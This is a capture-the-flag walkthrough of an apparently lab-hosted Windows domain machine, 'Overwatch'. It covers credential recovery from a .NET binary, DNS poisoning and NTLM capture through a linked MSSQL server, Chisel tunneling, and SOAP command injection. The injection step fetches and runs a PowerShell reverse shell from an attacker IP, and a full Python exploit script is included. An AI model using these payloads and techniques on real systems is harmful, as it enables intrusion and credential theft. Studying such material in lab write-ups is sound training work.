# Overwatch

```
Difficulty: Medium  
OS: Windows  
Services: DNS (53), Kerberos (88), RPC (135), SMB (445), LDAP (389), MSSQL (6520), WinRM (5985), WCF (8000)
```

## Summary of Attack Chain

| Step | User / Access             | Technique Used                            | Result                                                                                            |
| :--: | :------------------------ | :---------------------------------------- | :------------------------------------------------------------------------------------------------ |
|   1  | N/A (Unauthenticated)     | **Network scanning (nmap)**               | Identified Windows Server 2022 with Active Directory and a custom MSSQL service on port `6520`.   |
|   2  | N/A (Unauthenticated)     | **SMB enumeration**                       | Discovered anonymous `software$` share containing a `Monitoring` folder with a .NET executable.   |
|   3  | N/A (Unauthenticated)     | **Static analysis (.NET decompilation)**  | Decompiled `overwatch.exe` using dnSpy; recovered hardcoded domain credentials for user `sqlsvc`. |
|   4  | sqlsvc (Domain User)      | **ADIDNS poisoning**                      | Added malicious DNS record `sql07` pointing to attacker IP using `dnstool.py`.                    |
|   5  | sqlsvc (MSSQL Access)     | **Linked server authentication coercion** | Forced MSSQL to authenticate to attacker-controlled `sql07` via linked server query.              |
|   6  | sqlsvc (Attacker Context) | **NTLMv2 capture (Responder)**            | Captured NTLMv2 hash / credentials for high-privileged user `sqlmgmt`.                            |
|   7  | sqlmgmt (WinRM Access)    | **Remote management (Evil-WinRM)**        | Logged in via WinRM and retrieved **user.txt**.                                                   |
|   8  | sqlmgmt (Local Access)    | **Internal enumeration**                  | Identified WCF `MonitorService` listening on `127.0.0.1:8000`.                                    |
|   9  | sqlmgmt (Local Access)    | **Reverse tunneling (Chisel)**            | Forwarded internal WCF service to attacker machine for external exploitation.                     |
|  10  | sqlmgmt (Service Context) | **WCF command injection**                 | Injected PowerShell download cradle into `KillProcess` SOAP method.                               |
|  11  | sqlmgmt (Service Context) | **Memory-resident reverse shell**         | Executed in-memory PowerShell payload to bypass EDR and spawn a high-privileged shell.            |
|  12  | Root (SYSTEM)             | **Flag capture**                          | Received SYSTEM callback and retrieved **root.txt** from Administrator desktop.                   |



# Offensive Operations

## Enumeration & Reconnaissance

### 1.1 Port Scan

We begin with a full TCP port scan to identify exposed services.

```bash
nmap -p- --min-rate 10000 10.XXX.X.XXX -oN nmap_all_ports

```

[Nmap Results](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Overwatch/nmap_results.nmap "Results")

**Key Discovery:**

* **Standard Ports:** 53 (DNS), 88 (Kerberos), 445 (SMB), 5985 (WinRM).
* **Non-Standard Port:** Port **6520** is open (MSSQL).

[Nmap Results](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Overwatch/nmap_all_port_results.nmap "Results")




### 1.2 SMB Enumeration

We enumerate the `software` share found during scanning.

```bash
smbclient //overwatch.htb/software$ -N

```



**Findings:**
Inside the `Monitoring` folder, we identify a .NET application or configuration file.




* **Action:** We download the files and perform static analysis (using `dnSpy` or `strings`).
* **Result:** We discover hardcoded credentials for the user `sqlsvc`.



[EXE](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Overwatch/overwatch.exe "Results")

**Credentials Found:**

* **User:** `OVERWATCH\sqlsvc`
* **Password:** `TI0LKXXXXXXXXX`



[Source Code](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Overwatch/Source_code.txt "Results")

## Foothold: The DNS & Linked Server Attack

### 2.1 The Concept

We have credentials for `sqlsvc`. We suspect the MSSQL server has a **Linked Server** configured (likely named `SQL07` based on your hints) that it tries to authenticate to.
If we can trick the server into thinking *our* machine is `SQL07`, the MSSQL service account (`sqlmgmt` or similar) will try to authenticate to us, revealing its credentials.

### 2.2 Manipulating DNS

We need to add a DNS entry for `sql07.overwatch.htb` pointing to our attacker IP (`10.10.XX.XX`). We use `dnstool.py` for this, authenticating as `sqlsvc`.




```bash
python3 dnstool.py -u 'sqlsvc' -p 'TI0LKXXXXXXXXX' -r sql07 -d 10.10.XX.XX --action add 10.XXX.X.XXX
```

[DNS Tool](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Overwatch/dnstool.py "Results")

By default, authenticated users in AD often have the permission to *add* new DNS records (unless strict ACLs are set).



Now, anyone inside the network pinging `sql07` will go to `10.10.XX.XX`.


### 2.3 Capturing Credentials (Responder)

Now we set up a trap to capture the authentication attempt.

**1. Start Responder:**
Run Responder on your VPN interface (`tun0`) to listen for SMB/SQL authentication.

```bash
sudo responder -I tun0

```

**2. Trigger the Connection (MSSQL):**
Log in to the MSSQL instance as `sqlsvc` and force a query to the "linked server" `SQL07`.

**Login:**

```bash
impacket-mssqlclient 'OVERWATCH/sqlsvc:TI0LKXXXXXXXXX@10.XXX.X.XXX' -port 6520 -windows-auth

```

**Trigger Command (inside SQL shell):**
This command tells the server to execute a harmless query on `sql07`.

```sql
SQL> EXEC('SELECT 1') AT [SQL07];

```




**3. The Capture:**
Because of our DNS poisoning, the server connects to *us* (Responder). You should see the NTLMv2 hash or cleartext credentials appear in your Responder window.

**Captured Credentials:**
| User | Password | Source |
| :-- | : | : |
| `sqlmgmt` | `bIhBbXXXXXXXXX` | Captured via Linked Server Auth |


## Initial Access

### 3.1 Remote Management (WinRM)

We verified port **5985** was open earlier. We now use the captured `sqlmgmt` credentials to log in.

```bash
evil-winrm -i 10.XXX.X.XXX -u sqlmgmt -p 'bIhBbXXXXXXXXX'
```


### 3.2 Retrieving the User Flag

Navigate to the user's desktop.

```powershell
*Evil-WinRM* PS C:\Users\sqlmgmt\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\sqlmgmt\Desktop> type user.txt
```




## Privilege Escalation: 

**WCF Service Exploitation**

### 4.1 Internal Reconnaissance

After gaining initial access as `sqlmgmt`, we performed internal enumeration to identify potential escalation vectors. We checked for listening ports that were not accessible from the outside.

```powershell
netstat -ano | findstr LISTENING
```

**Findings:**

* We observed a service listening on **TCP Port 8000** bound to `127.0.0.1` (localhost).
* Checking the file system, we found a folder `C:\Software\Monitoring` containing a custom .NET application (`MonitorService.exe`).

> Developers often bind administrative or sensitive services to `localhost` assuming this makes them secure because they cannot be reached from the external network. However, once an attacker has a foothold on the machine (like we do with `sqlmgmt`), they can access these services locally or tunnel them out.

### 4.2 Tunneling (Chisel)

To analyze and exploit this service from our attacking machine (Kali), we established a **SOCKS tunnel** or a **Port Forward** using Chisel. This forwards traffic from our Kali port 8000 directly to the target's localhost:8000.

**1. Start Chisel Server (Kali):**

```bash
./chisel server -p 8001 --reverse
```

**2. Connect Client (Target):**

```powershell
.\chisel.exe client 10.10.XX.XX:8001 R:8000:127.0.0.1:8000
```

[chisel.exe](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Overwatch/chisel.exe "Results")


> Chisel wraps TCP traffic inside HTTP/WebSocket connections. This is highly effective at bypassing firewalls that might block raw TCP connections but allow outbound web traffic (Port 80/443).




### 4.3 Vulnerability Analysis

The service is a **WCF (Windows Communication Foundation)** application. By analyzing the source code (using `dnSpy` if we downloaded the binary) or sending basic requests, we identified a SOAP endpoint at `/MonitorService`.




**The Flaw:**
The service exposes a method called `KillProcess`. It accepts a user-supplied string `processName` and likely executes a system command similar to:
`System.Diagnostics.Process.Start("taskkill /IM " + processName);`

Because the input is not sanitized, we can inject a **Command Separator** (`;`) to terminate the intended command and execute our own.

### 4.4 The Exploit Payload

We constructed a payload that chains a benign command (`notepad`) with a malicious download cradle.

**Payload Breakdown:**

```powershell
notepad; IEX(New-Object Net.WebClient).DownloadString('http://10.10.XX.XX/shell.ps1');#

```

[shell.ps1](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Overwatch/shell.ps1 "Results")


1. `notepad` : Satisfies the original command's syntax.
2. `;` : The PowerShell command separator. It tells the system "Finish the previous command, then run this one."
3. `IEX (...)` : "Invoke-Expression". It downloads our reverse shell script from our python server into memory and executes it immediately.
4. `#` : A comment character. It ignores the rest of the original command (like closing quotes) to prevent syntax errors.




### 4.5 Exploit Script (`exploit.py`)

WCF services are strict about XML formatting and Headers. We wrote a Python script to handle the SOAP envelope correctly.

```python
import requests

# 1. Target Configuration
# We target 127.0.0.1 because Chisel is forwarding this port to the victim.
target_url = "http://127.0.0.1:8000/MonitorService"
callback_ip = "10.10.XX.XX"

# 2. The Injection Payload
process_name = f"notepad; IEX(New-Object Net.WebClient).DownloadString('http://{callback_ip}/shell.ps1');#"

# 3. WCF SOAP Envelope
# We must match the XML structure expected by the service contract.
soap_payload = f"""<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/">
    <s:Body>
        <KillProcess xmlns="http://tempuri.org/">
            <processName>{process_name}</processName>
        </KillProcess>
    </s:Body>
</s:Envelope>"""

# 4. Headers
# The SOAPAction header is CRITICAL. It tells the server exactly which function to run.
headers = {
    "Content-Type": "text/xml; charset=utf-8",
    "SOAPAction": '"http://tempuri.org/IMonitoringService/KillProcess"'
}

try:
    print(f"[*] Sending exploit to {target_url}...")
    response = requests.post(target_url, data=soap_payload, headers=headers, timeout=10)
    print("[+] Server Response:")
    print(response.text)
except Exception as e:
    print(f"[-] Error: {e}")
```

[exploit.py](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Overwatch/exploit.py "Results")


### 4.6 Execution & Root Flag

**Step 1: Start Listener**
Set up a Netcat listener to catch the SYSTEM shell.

```bash
nc -lvnp 4444
```

**Step 2: Host Payload**
Host the `shell.ps1` script (containing a standard PowerShell reverse shell) on port 80.

```bash
python3 -m http.server 80

```

**Step 3: Fire Exploit**
Run the Python script.

```bash
python3 exploit.py

```

**Step 4: Confirm Access**
Check the listener. We should receive a connection from the user running the service (SYSTEM).

```text
connect to [10.10.XX.XX] from (UNKNOWN) [10.XXX.X.XXX] 50461
PS C:\Software\Monitoring> whoami
nt authority\system
```

**Step 5: Capture Root Flag**
Navigate to the Administrator's desktop.

```powershell
PS C:\Software\Monitoring> cd C:\Users\Administrator\Desktop
PS C:\Users\Administrator\Desktop> type root.txt
[ROOT_FLAG_HASH]
```





[Persistence.exe](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Overwatch/per.exe "Results")



[Evidence Logs](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Overwatch/Loot_20260214_1044.zip "Results")












